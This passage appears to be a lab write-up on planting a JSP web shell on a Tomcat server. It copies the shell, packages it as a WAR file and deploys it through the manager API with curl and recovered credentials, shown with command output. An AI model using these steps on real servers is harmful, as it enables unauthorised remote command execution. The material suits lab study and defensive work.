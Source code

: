 Copy the shell. I used the shell to run commands, so I could tailor the reverse shell and/or run arbitrary commands.

```none
cp /usr/share/webshells/jsp/cmdjsp.jsp .
```

Edit the code to provide the ability to run on Linux. As per the comment in the file, we can just change line 16 to:

```none
Process p = Runtime.getRuntime().exec(cmd);
```

Now, we have to make a WAR file. If we just upload the JSP shell it won't be run by Tomcat. Luckily, we can just ZIP the file and give it a `.war` file extension.

```none
zip cmd.war cmdjsp.jsp
```

Then, as per the HackTricks article, use `curl` to POST the WAR file to the server.

```none
curl --upload-file cmd.war "http://tomcat:$3cureP4s5w0rd123!@10.10.10.194:8080/manager/text/deploy?path=/cmd"
```

Unfortunately, I kept getting errors when running this command: `zsh: event not found: @10.10.10.194`. Just looking at the `curl` command - it seems like it may be a special character issue, with characters like `$` in the URL. I tried the `--data-urlencode` argument, but it didn't work. Took the chance to read more about `curl` arguments, and came up with the following solution.

```none
curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file cmd.war http://10.10.10.194:8080/manager/text/deploy?path=/cmd
```

This leverages the `--user` argument to provide a username and password, that is independent from the URL. And... Success!

```none
OK - Deployed application at context path [/rev]
```

Some key tips here:

- Special characters are a pain in the URL, the simplest option seems to put creds in the `--user` argument wrapper in single quotes
- Tomcat versions 7 and up need to have `text` added to the URL! Read the HackTricks example in full for this info!!!

We can check the deployed application using a similar command.

```none
curl --user 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/list
```

And the results.

```none
OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:1:/usr/share/tomcat9-admin/host-manager
/cmd:running:0:cmd
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs
```
